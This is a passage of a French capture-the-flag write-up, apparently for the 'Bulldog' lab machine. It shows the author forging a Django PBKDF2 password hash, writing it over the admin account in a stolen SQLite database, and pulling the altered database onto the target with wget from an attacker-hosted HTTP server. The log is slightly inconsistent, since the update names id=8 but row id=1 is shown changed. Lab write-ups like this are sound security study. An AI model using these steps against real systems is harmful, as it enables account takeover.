 On remarque bien que le hash n'a pas la même forme que ceux stockés en base de données et, même en opérant quelques modifications cosmétiques sur le hash (```$pbkdf2-sha256``` en ```pbkdf2_sha256``` par exemple), cela ne marche toujours pas. Avec la bonne classe, c'est bien mieux.

```console
root@blinils:~# python
Python 2.7.14+ (default, Dec  5 2017, 15:17:02) 
[GCC 7.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from passlib.hash import django_pbkdf2_sha256 as handler
>>> hash = handler.using(rounds=20000).hash("blinils")
>>> hash
'pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI='
```

```console
root@blinils:~# sqlite3 db.sqlite3
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.

sqlite> .tables
auth_group                  auth_user_user_permissions
auth_group_permissions      django_admin_log          
auth_permission             django_content_type       
auth_user                   django_migrations         
auth_user_groups            django_session  
          
sqlite> .headers on

sqlite> select * from auth_user where id=1;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$9k0TYJltYWk5$rE0aQA4DGFxEjBhBH0BEJhFsF2Jx63690a8VGE/9a+c=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010

sqlite> update auth_user set password="pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI=" where id=8;

sqlite> select * from auth_user where id=1;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010

sqlite> ^Z
[1]+  Stopped                 sqlite3 db.sqlite3

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Une fois le changement opéré, la nouvelle base de données est transférée sur le serveur Bulldog.

```console
django@bulldog:/home/django/bulldog$ wget http://192.168.56.101:8000/db.sqlite3
</bulldog$ wget http://192.168.56.101:8000/db.sqlite3                        
--2018-01-01 00:00:00--  http://192.168.56.101:8000/db.sqlite3
Connecting to 192.168.56.101:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 40960 (40K) [application/octet-stream]
Saving to: ‘db.sqlite3.1’

db.sqlite3.1        100%[===================>]  40.00K  --.-KB/s    in 0s      

2018-01-01 00:00:01 (160 MB/s) - ‘db.sqlite3.1’ saved [40960/40960]

```